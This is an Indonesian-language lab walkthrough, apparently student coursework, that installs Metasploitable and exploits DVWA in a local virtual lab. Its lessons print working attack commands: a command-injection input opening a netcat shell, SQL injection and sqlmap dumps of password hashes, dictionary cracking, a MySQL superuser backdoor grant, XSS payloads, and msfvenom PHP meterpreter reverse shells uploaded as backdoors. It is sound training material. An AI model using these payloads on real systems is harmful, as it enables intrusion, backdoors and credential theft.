








# DVWA
DVWA adalah perangkat lunak berbasis website yang didesain memiliki celah agar dapat digunakan untuk berlatih. Dalam hal ini akan digunakan DVWA sebagai eksploitable platform dan kali linux host yang akan kita gunakan untuk mengeksploit.
## Instalasi DVWA
1. Pertama kita harus memiliki metasploitable  
  
2. Setelah itu, kita ekstrak  
    
3. Lalu kita buka folder metasploitable tersebut  
  
4. Selanjutnya kita jalankan program virtualbox dan buat virutal mesin baru lalu kita beri nama "metasploitable"  
  
5. Setelah itu kita diminta memasukkan besar memory  
  
6. Setelahnya kita diminta memilih mekanisme hardisk yang kita gunakan. Kita akan menggunakan pilihan ketiga lalu klik tombol folder di sebelah kanan    
  
7. Apabila tombol folder kita klik, maka akan muncul popup untuk memilih virtual disk. Kita pilih virtual disk metasploitable yang ada pada step 3.  
  
8. Apabila kita sudah memilih, tampilan akan menjadi seperti dibawah ini lalu kita klik buat  
  
9. Apabila berhasil, maka virtual mesin dengan nama "metasploitable" akan muncul pada daftar virtual mesin  
  
10. Selanjutnya buka pengaturan jaringan pada virtual mesin yang baru saja kita buat. Kita pilih "Adaptor Ter-bridge" pada pilihan "Terpasang pada:"  
  
11. Jalankan virtual mesin yang baru saja kita buat. Lalu kita masuk dengan menggunakan username: **msfadmin** dan password: **msfadmin**  
  
12. Apabila kita berhasil login akan muncul tampilan seperti di bawah ini  
  
13. Ketikkan **ifconfig** untuk mengetahui ip dari metasploitable yang telah kita buat. Dari gambar dibawah ini dapat kita lihat bahwa metasploitable kita mendapatkan ip **192.168.1.28**  
  
14. Kita bisa mengakses metasploitable yang kita bangun dengan cara mengetikkan alamat ip dari metasploitable yang kita buat. Dalam hal ini ip metasploitable kita adalah **192.168.1.28**  
  
15. Setelah itu kita diarahkan ke sebuah halaman yang berisi daftar modul metasploitable. Dalam hal ini kita hanya akan menggunakan dvwa. Kita klik **DVWA**  
  
16. Selanjutnya kita akan diarahkan ke halaman login DVWA  
  

## Eksploit DVWA  
## Lesson 4(Using Metasploit with Command Execution)  
Pada bagian ini kita akan belajar mengenai **Command Execution**. Dengan **Command Execution** memungkinkan penyerang untuk mengeksekusi perintah melalui bash   
1. Login DVWA. Default username: **admin** dan password: **password**.  
  
2. Ubah tingkat kesulitan pada DVWA menjadi low  
  
3. Pilih "command execution" pada bar navigasi  
  
4. Masukkan **192.168.1.28;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe** . Perintah tersebut akan membuka netcat session yang terhubung dengan bash  
   
5. Selanjutnya kita buka metasploit framework pada kali linux  
  
6. Apabila berhasil login akan muncul tampilan seperti di bawah ini. Pada gambar sudah terdapat syntax untuk terhubung dengan netcat session yang telah kita buat pada step 4.  
  
7. Apabila terhubung kita dapat menggunakan shell dvwa seperti pada gambar di bawah ini  
  
pada gambar diatas dapat diketahui current working directory dan credential kita  
8. Pada step 7 dapat kita ketahui bahwa kita berada di directory **/var/www/dvwa/vulnerabilities/exec**. Lalu kita coba akses folder **/var/www/dvwa** yang merupakan root dari dvwa dengan perintah **"cd ../.."**  
  
9. Selanjutnya kita buka folder **config** dan gunakan perintah **cat config.inc.php** untuk mengetahui konfigurasi dbms  
  
pada gambar diatas terlihat bahwa user yang digunakan untuk mengakses dbms adalah **root** dan passwordnya adalah **''** atau kosong  
10. Kita memberikan query untuk melihat semua database ke mysql. Query: **echo "show databases;" | mysql -u root --password=""**  
    
11. Selanjutnya kita bisa melihat daftar table yang ada pada databse dvwa. Query: **echo "use dvwa; show tables;" | mysql -u root --password=""**  
    
12. Selanjutnya kita coba melihat daftar user pada tabel users di database dvwa. Query: **echo "select * from dvwa.users;" | msql -u root --password=""**  
  
13. Selanjutnya kita coba memasukkan record baru. Query: **echo "insert into dvwa.users values(6, 'kelompok', '11', 'kelompok11', MD5('kelompok11'), 'NA');"|mysql -u root --password=""**  
  
14. Pada step 10 kita dapat melihat terdapat database **mysql**. Kita coba melakukan melihat tabel yang ada pada database mysql. Query: **echo "use mysql; show tables;"|mysql -u root --password=""**  
  
15. Selanjutnya kita coba menambahkan user baru. Query: **echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'db_hacker'@'%' IDENTIFIED BY 'abc123' WITH GRANT OPTION;" | mysql -u root --password=""**  
  

## Lesson 5(Using Tamper Data with crack\_web_form.pl)
Pada sesi kali ini kita akan mencoba mengeksploitasi celah pada login DVWA. Kita akan coba melakukan dictionary attack. Kita akan menggunakan tamper data untuk mengetahui request yang kita kirimkan dan cwf yang akan kita gunakan untuk melakukan dictionary attack berdasarkan detil yang telah kita peroleh dari tamper data.    
1. Pertama-tama kita harus menampabahkan plugin tamper data pada browser kita  
  
  
2. Lalu jalankan tamper data melalui menu tools pada sisi atas browser  
  
3. Selanjutnya kita buka halaman login DVWA. Dan masukkan username: **wew**, password: **wew**. Maka akan muncul tulisan **Login failed** yang berarti username dan password kita yang kita masukkan salah.  
  
4. Lalu kita buka tamper data yang telah kita jalankan. Terdapat beberapa request. Kita pilih yang merupakan login kita ke aplikasi dvwa.  
  
5. Selanjutnya kita buat sebuah folder untuk menampung program yang akan kita gunakan untuk mengeksploit  
  
6. Selanjutnya kita download program yang akan gunakan untuk melakukan eksploit dan letakkan di dalam folder yang telah kita buat. Program dapat kita download di: **www.computersecuritystudent.com/SECURITY\_TOOLS/DVWA/DVWAv107/lesson5/cwf.tar.gz**  
  
7. Lalu ekstrak file yang telah kita download. Di dalamnya kita akan menemukan 2 buah file, satu file untuk melakukan eksploit dan satu file sebagai dictionary  
  
8. Kita dapat menggunakan program tersebut dengan perintah: **./crack\_web_form.pl -U admin -P password.txt -http "http://192.168.1.28/dvwa/login.php" -data "username=USERNAME&password="PASSWORD"&Login=Login" -M "Login failed** dimana:    
	`- -U digunakan untuk menentukan username. Kita tentukan usernamenya adalah **admin** dengan asumsi kita akan mencoba dengan username **admin**`  
	`- -P untuk menentukan dictionary yang kita pakai`  
	`- -http untuk menentukan url`  
	`- -data untuk menentukan data yang kita dapat dari tamper data`  
	`- -M untuk menentukan pesan error`   
  
9. Selanjutnya apabila kita jalankan perintah pada step 8, maka proses eksploit akan dimulai dan apabila berhasil program akan menampilkan pesan **success** dan menghentikan proses    
   
dapat kita lihat bahwa username yang benar adalah **admin** dan password yang benar adalah **password**  

## Lesson 6(SQL Injection)
Sql injection adalah penyerangan dengan memanfaatkan celah pada mysql. Celah tersebut memungkinkan kita menjalankan perintah ke mysql hanya dengan memasukkannya pada form masukkan yang tersedia.  
1. Pertama pada navigasi DVWA kita pilih sqlinjection  
  
2. Kita coba sembarang input  
  
pada bagian diatas memperlihatkan bahwa dvwa menampilkan id, firstname dan Surname. Namun php query yang akan kita eksploit adalah **$getid "SELECT first\_name, last\_name FROM users WHERE user\_id = '$id'";**. Id pada hasil query adalah id yang kita masukkan melalui input form. Dvwa tidak benar benar melakukan query untuk menampilkan ID.  
3. Selanjutnya kita coba sql injection basic menggunakan query **%' or '1'='1'** yang akan mereturn semua record karena pernyataan **'1'='1'** selalu benar. Query yang akan kita berikan ke database adalah **$getid = "SELECT first\_name, last\_name FROM users WHERE user\_id = '%' or '1'='1'";**  
  
4. Selanjutnya kita dapat menggunakan melihat versi dari daabase dengan syntax **%' or 0=0 union select null, version() #**  
    
dapat kita lihat bahwa record paling bawah pada bagian Surname menampilkan versi dari database.  
5. Selanjutnya kita dapat melihat user yang dengan query **%' or 0=0 union select null, user() #**  
  
pada record terakhir pada field Suraname kita dapat melihat bahwa user yang digunakan untuk mengakses database adalah **root@localhost**  
6. Selanjutnya kita dapat melihat nama database dengan query **%' or 0=0 union select null, database() #**  
  
Pada record terakhir terlihat bahwa nama databasenya adalah **dvwa**  
7. Selanjutnya kita dapat melihat semua table di information\_schema dengan query **%' and 1=0 union select null, table\_name from information\_schema.tables #**  
  
8. Kita juga dapat melihat dafta table user yang terdapat pada information\_schema dena query **%' and 1=0 union select null, table\_name from information\_schema.tables where table\_name like 'user%'#**  
  
Pada record kedua yang dilingkari biru adalah table yang berisi daftar user dan password.  
9. Menampilkan daftar kolom pada database users dengan query **%' and 1=0 union select null, concat(table\_name,0x0a,column\_name) from information\_schema.columns where table\_name = 'users' #**  
  
dapat kita lihat pada bagian Surname memiliki value dengan atribut **user<spasi><nama kolom>**  
10. Kita dapat menampilkan isi dari table user pada information_scheme dengan query **%' and 1=0 union select null, concat(first\_name,0x0a,last\_name,0x0a,user,0x0a,password) from users #**  
  
Dapat kita lihat pada bagian Surname menampilkan record pada table user di information_scheme  
11. Selanjutnya kita highlight user dan password, lalu copy  
  
12. Selanjutnya kita paste ke text editor dan buat format password hash
  
13. Ulangi langkah 11-12 untuk semua record  
  
14. Lalu simpan file tersebut di folder **~/pentest/password/john** dan kita beri nama **dvwa_password.txt**  
  
15. Selanjutnya buka terminal  
  
16. Lalu jalankan perintah **john --format-raw=MD5 dvwa\_password.txt** untuk melakukan cracking password  
  
17. Hasil crack password akan nampak seperti ini  
   

## Lesson 7(Automate SQL Injection with SqlMap)
Pada sesi kali ini kita akan mencoba melakukan sqlinjection dengan sqlmap. Sqlmap adalah tools khusus yang dibuat untuk melakukan sqlinjection.  
1. Pertama kita pilih SQL Injection pada bagian navigasi  
  
2. Selanjutnya kita buka tamper data melalui menu tools pada mozilla firefox  
  
3. Selanjutnya jendela tamper data akan terbuka  
  
4. Selanjutnya kita masukkan sembarang input untuk melihat request yang dikirimkan.  
  
5. Kita dapat melihat request yang dikirimkan melalui tamper data  
  
6. Selanjutnya kita pilih request yang dikirimkan saat kita mensubmit user id pada step 4. Selanjutnya kita copy referer pada bagian request header.  
  
7. Selanjutnya kita paste referer yang kita copy ke text editor  
  
8. Kita juga perlu copy cookie  
  
9. Lalu kita paste pada text editor  
  
10. Selanjutnya kita buka sqlmap
  
11. Selanjutnya kita masukkan perintah berikut untuk melakukan eksploitasi melalui sqlmap **sqlmap -u "http://192.168.1.28/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ed1a0048f43cb29d33bd512196037f68; security=low" -b --current-db --current-user** dimana:    
    `- -u, target url. Kita isi dengan referer yang telah kita copy ke text editor`  
    `- --cookie, HTTP cookie header. Kita isi dengan cookie yang telah kita copy   ke text editor  `
    `- -b, menerima DBMS banner`  
    `- --current-db, menerima database yang digunakan`  
    `- --current-user, menerima user yang digunakan untuk mengakses database`  
  
12. Selanjutnya kita akan memperoleh result seperti gambar di bawah:  
  
Kita dapat melihat database dan user yang digunakan  
13. Selanjutnya kita dapat melihat daftar Database Management Username and Password dengan query **sqlmap -u "http://192.168.1.106/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ed1a0048f43cb29d33bd512196037f68; security=low" --string="Surname" --users --password** dimana:  
	`- -u, target url. Kita isi dengan referer yang telah kita copy ke text editor`  
	`- --cookie, HTTP cookie header. Kita isi dengan cookie yang telah kita copy ke text editor`  
	`- --string, kata yang ditampilkan apabila sukses atau gagal`  
	`- --users, daftar user database management system`
	`- --password, daftar password untuk user di database management system.`  
  
14. Selanjutnya kita akan menerima daftar user yang terdapat pada database management system. Pada saat proses akan menampilkan pesan sebagai berikut. User **db\_hacker** adalah user yang telah kita masukkan di **Lesson 4 Step 15**   
	`- do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]? N`
	`- do you want to perform a dictionary-based attack against retrieved password hashes? Y`
	`- what dictionary do you want to use? Enter`
	`- do you want to use common password suffixes? N`
  
15. Selanjutnya sqlmap akan melakukan dictionary-based attack.  
  
Dapat kita lihat bahwa hanya db_hacker yang dapat dicrack  
16. Selanjutnya kita dapat mengetahui privileges dengan query **sqlmap.py -u "http://192.168.1.106/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ed1a0048f43cb29d33bd512196037f68; security=low" -U db_hacker --privileges** dimana:  
	`- -u, target url`  
	`- --cookie, HTTP cookie header`  
	`- -U, database management system user`  
	`- --privileges, daftar privileges dari user, dalam hal ini` **db_hacker**  
  
17. Selanjutnya daftar privileges user **db\_hacker** akan ditampilkan
  
18. Selanjutnya kita dapat melihat daftar database dengan query **sqlmap -u "http://192.168.1.28/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ed1a0048f43cb29d33bd512196037f68; security=low" --dbs** dimana:  
	`- --dbs adalah syntax untuk menampilkan daftar database`  
  
19. Selanjutnya daftar database akan ditampilkan    
  
20. Selanjutnya kita dapat melihat daftar table dari database dvwa dengan query **sqlmap -u "http://192.168.1.28/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ed1a0048f43cb29d33bd512196037f68; security=low" -D dvwa --tables** dimana:  
	`- D, nama database`  
	`- --tables, perintah untuk menampilkan daftar tabel`  
    
21. Selanjutnya kita melihat kolom pada tabel users di database dvwa dengan query **sqlmap -u "http://192.168.1.28/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ed1a0048f43cb29d33bd512196037f68; security=low" -D dvwa -T users --columns** dimana:  
	`- -T, nama tabel`
	`- --columns, peritntah untuk menampilkan daftar kolom pada suatu tabel, dalam hal ini tabel users`  
  
22. Selanjutnya sqlmap akan menampilkan semua daftar kolom tabel users  
  
23. Selanjutnya kita dapat melihat nilai kolom user dan password dengan query **sqlmap -u "http://192.168.1.106/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ed1a0048f43cb29d33bd512196037f68; security=low" -D dvwa -T users -C user,password --dump** dimana:  
	`- -C, kolom yang dipilih`
	`- --dump, dump isi tabel`
  
24. Selanjutnya slqmap akan menampilkan semua isi dari kolom user dan password dari tabel users di database dvwa  
   

## Lesson 8(Upload PHP Backdoor Payload)
Pada sesi kali ini kita akan mencoba mengupload file backdoor ke server.  
### Pembuatan payload dengan msfvenom
1. Pertama, di komputer kali linux kita harus membuat terlebih dahulu payload yang akan kita upload ke server  
   
Keterangan:  
	`- -p, payload yang digunakan`  
	`- LHOST, kita ganti dengan ip kali linux`
	`- LPORT, kita ganti dengan 4444`
	`- PHONE_HOME.php nama file yang akan kita buat`
2. Buka file payload yang telah kita buat untuk diedit  
  
3. Hapus tanda **/*** pada baris pertama  
  

### Buat listener untuk payload yang telah kita buat
1. Buka metasploit framework pada komputer kali linux
  
2. Selanjutnya kita buat listener untuk payload yang kita buat  
	Instruksi:  
	`1. use exploit/multi/handler`  
	`2. set PAYLOAD php/meterpreter/reverse_tcp`  
	`3. set LHOST 192.168.1.31`  
	`4. set LPORT 4444`  
	`5. exploit`  
  
3. Konsol metasploit akan menunggu payload kita untuk terhubung

### Upload payload  
1. Setelah payload selesai kita buat, kita perlu upload file payload tersebut ke server dvwa. Pertama kita harus buka **Upload** pada navigasi dvwa  
  
2. Selanjutnya kita klik browse dan popup file picker akan muncul  
   
kita pilih file payload yang telah, yang telah kita namai **PHONE_HOME.php** dan telah kita edit. Setelah itu kita pilih **Open** dan upload file.  
3. Selanjutnya apabila file sudah terupload akan muncul tampilan seperti di bawah  
  
4. Selanjutnya kita buka url **http://192.168.1.28/dvwa/hackable/uploads** dimana semua file yang kita upload ke server dvwa disimpan  
  
5. Selanjutnya pilih file yang telah kita upload, dalam hal ini file tersebut telah kita namai **PHONE_HOME.php**. Pada sisi kali linux listener yang telah kita buat akan berhasil connect ke server dvwa  
    
6. Selanjutnya kita ketiikkan perintah **shell**
  
selanjutnya kita dapat memasukkan perintah seperti pada shell.  
7. Perintah terakhir akan membuat halaman html baru  
  
8. Halaman **hacked.html** apabila diklik
  

## Lesson 9
Pada sesi kali ini kita akan mencoba melakukan cross site scripting dimana kita akan memanfaatkan celah dvwa yang akan mengeksekusi script yang kita masukkan melalui isian form.

### Konfigurasi
#### Mengubah maxlength input form
1. Pertama kita buka file **/var/www/dvwa/vulnerabilities/xss_s/index.php**  
  
2. Selanjutnya kita cari textarea yang bernama **mtxMessage** dengan cara menekan kombinasi tombol **Ctrl+W** lalu isikan **mtxMessage**  
  
3. Selanjutnya ubah bagian **maxlength** pada textarea tersebut  
  
4. Selanjutnya tekan kombinasi tombol **Ctrl+O** lalu enter untuk menyimpan perubahan  
  
5. Lalu tekan tombol **Ctrl+X** untuk keluar dari mode edit file  

#### Membuka block popup firefox
1. Pertama kita buka mozilla firefox  

2. Selanjutnya buka konfigurasi firefox. Pada tab **Content**, pastikan pilihan **Block pop-up windows** tidak tercentang  

### Exploit
#### Skenario 1
1. Buka **Setup** pada navigasi dvwa dan pilih **Create/Reset Database**  
  
2. Buka halaman **XSS stored**  
  
2. Masukkan script `` pada bagian **Message** lalu klik **Sign Guestbook**  
  
3. Hasilnya adalah  
  

#### Skenario 2
1. Buka **Setup** pada navigasi dvwa dan pilih **Create/Reset Database**  
  
2. Buka halaman **XSS stored**  
  
2. Masukkan script `<iframe src="http://www.cnn.com"></iframe>` pada bagian **Message** lalu klik **Sign Guestbook**  
  
3. Hasilnya adalah  
  

#### Skenario 3
1. Buka **Setup** pada navigasi dvwa dan pilih **Create/Reset Database**  
  
2. Buka halaman **XSS stored**  
  
2. Masukkan script `` pada bagian **Message** lalu klik **Sign Guestbook**  
  
3. Hasilnya adalah  
  

#### Skenario 4
##### Membuat payload dengan msfvenom
Pertama kita akan membuat payload di kali linux yang akan kita upload ke server dvwa dan akan membuka komunikasi dengan listener yang akan kita buat di kali linux.
1. Kita buat pyload yang akan kita upload dengan cara membuka terminal lalu mengetikkan perintah berikut:  
**msfvenom -p php/mterpreter/reverse_tcp LHOST=192.168.1.31 LPORT=4444 R > FORUM_BUG.php**  
ganti **192.168.1.31** dengan ip kali linux.  
  
2. Selanjutnya edit file payload yang telah kita buat  
  
3. Hapus tanda `/*` pada baris pertama file  
  
4. Selanjutnya tekan kombinasi tombol **Ctrl+O** untuk menyimpan perubahan  
  
 
##### Upload payload ke server
Selanjutnya kita harus mengupload file payload yang telah kita buat
1. Buka halaman file upload dengan memilih bagian **Upload** pada navigasi dvwa  
  
2. Selanjutnya pilih **Browse...** dan dvwa akan menampilkan popup untuk memilih file  
   
Pilih file yang telah kita buat, yaitu **FORUM_BUG.php** lalu klik **Open**  
3. File akan siap untuk diupload apabila muncul tampilan seperti di bawah ini  
    
Selanjutnya kita pilih **Upload**
4. Apabila file berhasil terupload akan muncul tampilan seperti di bawah ini  
  

##### Buat listener
Selanjutnya kita akan membuat listener yang akan berkomunikasi dengan payload yang kita buat  
1.  Buka metasploit di kali linux  
  
2. Masukkan perintah sebagai berikut:    
	 `1. use multi/handler/exploit`  
	 `2. set PAYLOAD php/meterpreter/reverse_tcp`  
	 `3. set LHOST 192.168.1.31`  
	 `4. set LPORT 4444`  
	 `5. exploit`  
  

##### Mentrigger payload
1. Reset database
  
2. Masukkan script `` yang akan mengaktifkan payload yang telah kita upload.  
  
Lalu klik **Sign Guestbook**  
3. Selanjutnya apabila terhubung payload akan terhubung dengan listener  
  
4. Selanjutnya kita dapat mengakses shell dari dvwa dengan mengetikkan perintah **shell**  
  
Selanjutnya kita dapat menjalankan perintah melalui shell yang telah kita dapat  
5. Melihat file konfigurasi  
  
6. Kita dapat melihat detil konfigurasi database dengan perintah `grep "db_" /var/www/dvwa/config/config.inc.php`  
  
kita dapat melihat detil database termasuk db\_user dan db\_password  
7. Selanjutnya kita dapat melihat daftar tabel pada database dvwa `echo "use dvwa; show tables;" | mysql -u root --password=""`  
  
8. Selanjutnya kita dapat melihat deskripsi user dengan perintah `echo "use dvwa; desc usrs;"|mysql -u root --password=""`  
  
9. Selanjutnya kita dapat melihat user dan password dengan perintah `echo "select user, password from dvwa.users;"|mysql -u root --password=""`  
    
10. Selanjutnya kita akan membuat file jejak dengan perintah:
    
	- `echo "<pre> >> /var/www/dvwa/hackable/uploads/xss.html"`
	- `echo "select user, password from dvwa.users;" | mysql -u root --password="" >> /var/www/dvwa/hackable/uploads/xss.html`
	- `echo "</pre> >> /var/www/dvwa/hackable/uploads/xss.html"`
	- `date >> /var/www/dvwa/hackable/uploads/xss.html`
	- `echo " <h1>Kelompok11</h1> " >> /var/www/dvwa/hackable/uploads/xss.html`
11. Selanjutnya kita dapat melihat file yang telah kita buat  
  
12. Selanjutanya kita dapat membuka file yang telah kita buat  
  

